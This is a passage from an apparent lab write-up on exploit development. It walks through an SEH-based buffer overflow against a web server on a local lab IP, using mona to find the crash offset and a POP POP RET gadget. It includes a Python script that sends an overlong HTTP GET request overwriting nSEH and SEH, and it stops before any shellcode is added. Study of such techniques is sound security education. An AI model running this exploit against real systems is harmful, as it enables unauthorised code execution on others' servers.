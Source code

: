 After using `!mona pc 5000` and placing the resulting address in our SEH entry into `!mona po`, mona tells us that our SEH overwrite occurs after 4061 bytes. 

What we need now is the location of a `POP POP RET` gadget in this application so that we can place it in our current SEH 4 byte space and we can work our way 4 bytes backwards into the 4 byte space that typically holds the pointer to the next SEH. 

Using the `!mona seh` command, most of the addresses we see immediately start with `00` which is not ideal since this will require us to include a null byte in our shellcode. We could try for a partial overwrite but instead, I kept looking for a more friendly 4 byte address and eventually found one at the following location in the `seh.txt` file that mona creates. 

![](/assets/images/CTP/sehlocation.JPG)

Our exploit code now looks like this. Notice that I added the `nseh` parameter (I used `\xcc` but you can use `\x90` as well) so that our math stays correct and we keep getting a consistent SEH overwrite. 
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

nseh = "\xcc" * 4

#POP POP RET 0x1001ab99
seh = '\x99\xab\x01\x10'

crash = "A" * 4061
crash += nseh
crash += seh
crash += "D" * (5000 - len(crash))


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```

Let's set a breakpoint on our `POP POP RET` address like so: 

![](/assets/images/CTP/efsbreak.JPG)
